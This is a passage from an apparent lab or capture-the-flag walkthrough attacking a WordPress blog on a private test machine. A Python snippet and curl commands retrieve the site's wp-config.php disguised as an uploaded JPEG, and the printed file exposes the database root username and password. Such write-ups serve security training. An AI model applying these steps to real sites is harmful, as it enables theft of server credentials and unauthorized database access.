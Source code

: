 ```python
content = objHtml.readlines()

for line in content:
	if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line:
		urls=re.findall('"(https?://.*?)"', line)
		print urllib2.urlopen(urls[0]).read()
```

There was no output from the script but if we check our `wp-content/uploads/` directory we'll see a brand new file there. Lets download it and have a look.

`$ curl -s -k https://10.1.1.129:12380/blogblog/wp-content/uploads/1254641780.jpeg -O 1254641780.jpeg`

`$ file 1254641780.jpeg`

```
1254641780.jpeg: PHP script, ASCII text
```

*Excited noises*

`$ cat 1254641780.jpeg`

```php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link https://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
```